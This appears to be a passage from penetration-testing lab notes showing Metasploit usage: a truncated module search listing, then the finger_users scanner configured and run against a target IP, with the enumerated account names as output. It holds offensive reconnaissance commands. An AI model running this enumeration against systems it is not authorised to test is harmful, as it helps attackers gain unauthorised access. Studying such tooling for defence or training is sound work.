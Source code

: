 ```
   8  exploit/windows/http/bea_weblogic_post_bof     2008-07-17       great   Yes    Oracle Weblogic Apache Connector POST Request Buffer Overflow 
   9  post/windows/gather/enum_putty_saved_sessions                   normal  No     PuTTY Saved Sessions Enumeration Module 
```

Find users:

```
msf5 > use auxiliary/scanner/finger/finger_users 
msf5 auxiliary(scanner/finger/finger_users) > show options  

Module options (auxiliary/scanner/finger/finger_users): 

Name        Current Setting                                                Required  Description 
   ----        ---------------                                                --------  ----------- 
   RHOSTS                                                                     yes       The target address range or CIDR identifier 
   RPORT       79                                                             yes       The target port (TCP) 
   THREADS     1                                                              yes       The number of concurrent threads 
   USERS_FILE  /usr/share/metasploit-framework/data/wordlists/unix_users.txt  yes       The file that contains a list of default UNIX accounts. 

msf5 auxiliary(scanner/finger/finger_users) > setg rhosts 192.186.218.3 
rhosts => 192.186.218.3 
msf5 auxiliary(scanner/finger/finger_users) > run 

[+] 192.186.218.3:79      - 192.186.218.3:79 - Found user: admin 
[+] 192.186.218.3:79      - 192.186.218.3:79 - Found user: administrator 
[+] 192.186.218.3:79      - 192.186.218.3:79 - Found user: backup 
[+] 192.186.218.3:79      - 192.186.218.3:79 - Found user: bin 
[+] 192.186.218.3:79      - 192.186.218.3:79 - Found user: daemon 
[+] 192.186.218.3:79      - 192.186.218.3:79 - Found user: dbadmin 
[+] 192.186.218.3:79      - 192.186.218.3:79 - Found user: diag 
[+] 192.186.218.3:79      - 192.186.218.3:79 - Found user: games 
[+] 192.186.218.3:79      - 192.186.218.3:79 - Found user: gnats 
[+] 192.186.218.3:79      - 192.186.218.3:79 - Found user: gopher 
[+] 192.186.218.3:79      - 192.186.218.3:79 - Found user: irc 
[+] 192.186.218.3:79      - 192.186.218.3:79 - Found user: list 
[+] 192.186.218.3:79      - 192.186.218.3:79 - Found user: lp 
[+] 192.186.218.3:79      - 192.186.218.3:79 Users found: admin, administrator, backup, bin, daemon, dbadmin, diag, games, gnats, gopher, irc, list, lp, mail, man, news, nobody, proxy, root, saned, sync, sys, systemd-bus-proxy, udadmin, uucp, webmaster, www-data 
[*] 192.186.218.3:79      - Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed 
```

### finger-user-enum

